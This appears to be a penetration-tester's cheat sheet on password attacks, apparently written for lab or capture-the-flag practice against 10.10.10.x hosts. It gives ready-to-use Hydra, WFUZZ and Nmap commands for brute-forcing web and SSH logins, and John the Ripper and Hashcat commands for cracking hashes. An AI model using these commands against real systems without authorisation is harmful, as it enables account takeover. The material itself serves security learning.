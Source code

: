 ## Passwords

### Basics

1. default creds
2. 'password'
3. Try the hostname
4. admin/admin
5. Any previous passwords found (remember to try SSH with them!)
6. See if there are password files specific to your platform

### HTTP Bruteforce

#### Hydra

1. Use burpsuite to capture the login traffic to form the command for Hydra.

2. Craft the Hydra statement using the correct login URI, form names, and failure message.  If it is throttling, you can tell it to wait between attempts and not use parallel guesses.

   ```bash
   # Examples
   
   # Basic HTTP authentication (login popup) - be sure it doesn't redirect you to another login page
   hydra -L user.txt -P /usr/share/wordlists/rockyou.txt -f 10.10.10.95 -s 8080 http-get /manager/html
   
   # Login form, parameters obtained from Burp
   hydra 10.10.10.75 http-form-post -m "/admin.php:user=^USER^&pass=^PASS^:Incorrect username" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
   
   # Login form, parameters obtained from Burp
   hydra 10.10.10.75 http-form-post -m "/webservices/monstra-3.0.4/admin/:login=^USER^&password=^PASS^:Incorrect username" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
   
   # Options
   http-form-post 
   -m "URI:field=value:FailureMessage"	# Module options
   H=Cookie: PHPSESSID=a9blgb5agnp8fq03frrbuk5oe7 # Put in field for cookies
   -f	# Exit after first match
   -t N # Runs N tasks in parallel, defaults to 16
   ## For username options, insert ^USER^ into the form post data where the username goes.
   -W N # Waits N seconds between login attempts
   -l admin	# Specify single username
   -L users.txt	# Supply usernames in a file
   ## For password options, insert ^PASS^ into the form post data where the password goes.
   -p pass		# Specify single password
   -P pass.txt	# Supply passwords in a file
   -s PORT		# Specify a port if non-standard
   -S			# Connect using SSL
   ```

#### WFUZZ

```bash
wfuzz -c --sc 200 -z file,/usr/share/wordlists/rockyou.txt -d 'login=admin&password=FUZZ&login_submit=Log+In' -u http://10.10.10.88/webservices/monstra-3.0.4/admin/ -v --oF wfuzz.txt
```

### SSH Bruteforce

#### Hydra

```bash
hydra -l sammy -P /usr/share/wordlists/rockyou.txt 10.10.10.76 ssh -s 22022

# Options
-l	# Specify login username
-P	# Password file
-s  # Specify port
ssh # Target as PROTOCOL://IP
```

#### Nmap

```bash
# A site shared this, but it didn't do anything for me
nmap 10.10.10.76 -p 22022 --script ssh-brute --script-args userdb=sammy,passdb=/usr/share/wordlists/rockyou.txt
```

### Cracking

#### Identify Hash

```bash
hashid -j HASH
```

#### John The Ripper

1. Identify the hash

   ```bash
   hash-identifier
   ```

2. Create a file with the hash

   ```bash
   # NTLM Format
   username:NTLMHash
   ```
   
3. Crack the wordlist, which is generally going to take one of these routes:

   - Cracking with usual wordlists (rockyou.txt)

      ```bash
      # Specify NT format with Windows, otherwise no need
      john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt --format=NT
      # Check results
      john --show hashes.txt
      
      # Options
      john --list=formats	# Shows various password formats
      # Common formats: Raw-SHA256, NT, Raw-MD5
      ```

   - Make a word list with cewl

   - Password is not meant to be cracked

4. Show the results of John

   ```bash
   john --show hash.txt
   ```


For unsalted hashes, use https://crackstation.net/

#### HashCat

You need to tell Hashcat what mode to run in.  List of modes:  

- https://hashcat.net/wiki/doku.php?id=example_hashes

- Other useful info: https://github.com/frizb/Hashcat-Cheatsheet

<u>Basic wordlist crack</u>

```bash
hashcat –m 0 HASHFILE /usr/share/wordlists/rockyou.txt
# Options
-m 3200 # Specifies hash type, see URL below for other ID's
```

<u>Run with rules:</u>

- From https://github.com/NotSoSecure/password_cracking_rules

  ```bash
  hashcat --force -m 3200 hash.txt wordlist.txt --status -w3 -o found.txt --remove --potfile-disable -r ~/opt/wordlists/hashcat/rules/OneRuleToRuleThemAll.rule -o cracked.txt
  
  # Options
  -r # Specify rules file
  ```

- hob0rules:  https://github.com/praetorian-code/Hob0Rules

  - hob064 This ruleset contains 64 of the most frequent password patterns used to  crack passwords. Need a hash cracked quickly to move on to more testing? Use this list.

    ```bash
    hashcat -a 0 -m 1000 <NTLMHASHES> wordlists/rockyou.txt -r hob064.rule -o cracked.txt
    ```

  - d3adhob0 This ruleset is much more extensive and utilizes many common password  structure ideas seen across every industry. Looking to spend several  hours to crack many more hashes? Use this list.

    ```bash
    hashcat -a 0 -m 1000 <NTLMHASHES> wordlists/english.txt -r d3adhob0.rule -o cracked.txt
    ```


<u>Restoring a session</u>

```bash
# You can start a session and give it a name like 
hashcat --session session_name -a 0 -m 1000 <NTLMHASHES> wordlists/english.txt -r d3adhob0.rule -o cracked.txt

# Then restore with
hashcat --session session_Name --restore

# If no session name was specified, use
hashcat --restore
```

